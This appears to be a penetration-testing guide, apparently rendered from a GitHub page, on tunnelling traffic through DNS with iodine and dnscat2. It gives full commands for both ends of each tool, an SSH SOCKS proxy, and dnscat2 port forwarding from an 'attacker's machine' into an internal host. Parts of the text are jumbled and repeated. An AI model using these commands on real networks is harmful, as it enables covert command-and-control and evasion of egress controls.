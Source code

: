 ## Establishing DNS tunnels

If any WAN traffic is blocked but external host names are resolved then there’s a possibility of tunneling traffic via DNS queries. 
You need a domain registered for this technique to work. 

- http://dev.kryo.se/iodine/wiki/HowtoSetup might help you with setting up your name server.


## Tunneling using Iodine

If so happens that you got root access on the server you can try http://code.kryo.se/iodine/

It works almost like hans ICMP tunneling tool - it creates a pair of tun adapters and tunnels data between them as DNS queries. 
Successful connection will yield direct client visibility at address 1.1.1.2. 

Running on the server side:

```bash
iodined -f -c -P hacker@hacker.com 1.1.1.1 tunneldomain.com
```

Running on the client side:

```bash
iodine -f -P hacker@hacker.com tunneldomain.com -r
```

Using a compressed ssh connection over the resulting connection:

```bash
ssh <user>@1.1.1.2 -C -c blowfish-cbc,arcfour -o CompressionLevel=9 -D 1080
```

## Tunneling using dnscat2

- https://github.com/iagox86/dnscat2 establishes C&C channel over recursive DNS queries. 

This tool doesn't require root/administrator access (works both on Windows and linux). 
It also supports port forwarding. 

Running on the server side:

```bash
ruby ./dnscat2.rb tunneldomain.com
```

Running on the client side:

```bash
./dnscat2 tunneldomain.com
```

Viewing active sessions:

```bash
dnscat2> windows
     0 :: main [active]
      dns1 :: DNS Driver running on 0.0.0.0:53 domains = tunneldomain.com [*]
      1 :: command session (debian)
      2 :: sh (debian) [*] 
1.1.2.4 Forwarding ports
This will bind port 8080 on the attacker’s machine and forward all connections to 10.0.0.20:80.
    dnscat2> session -i 1
    New window created: 1
    New window created: 1
    history_size (session) => 1000

   command session (debian) 1> listen 127.0.0.1:8080 10.0.0.20:80
```

To initiate port forwarding select a command session with `session -i <num>`:

```bash
dnscat2> session -i 1
New window created: 1
New window created: 1
history_size (session) => 1000
This is a command session!
```   

That means you can enter a dnscat2 command such as 'ping'! For a full list of clients, try 'help'.


Use `listen [lhost:]lport rhost:rport` command to forward a port:

```bash
command session (debian) 1> listen 127.0.0.1:8080 10.0.0.20:80
```

This will bind port 8080 on the attacker’s machine and forward all connections to `10.0.0.20:80`.
